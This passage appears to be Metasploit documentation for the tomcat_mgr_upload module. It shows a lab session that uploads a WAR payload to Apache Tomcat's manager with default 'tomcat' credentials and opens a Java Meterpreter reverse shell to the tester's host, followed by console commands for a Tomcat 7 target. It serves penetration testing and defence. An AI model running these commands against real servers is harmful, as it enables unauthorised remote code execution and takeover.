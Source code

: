     [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Uploading and deploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
    [*] Executing ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
    [*] Undeploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7 ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3387) at 2017-01-15 19:18:14 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

### Tomcat 7 (7.0.73)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.73/bin/apache-tomcat-7.0.73.exe)

The install was default, other than adding a user during install.  No other options were changed.

#### Exploitation

1. If a user was not defined at install, you will need to add a `manager-gui` permission user.  Edit `C:\Program Files\Apache Software Foundation\Tomcat 7.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_upload) > check
    [*] 192.168.2.108:8087 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    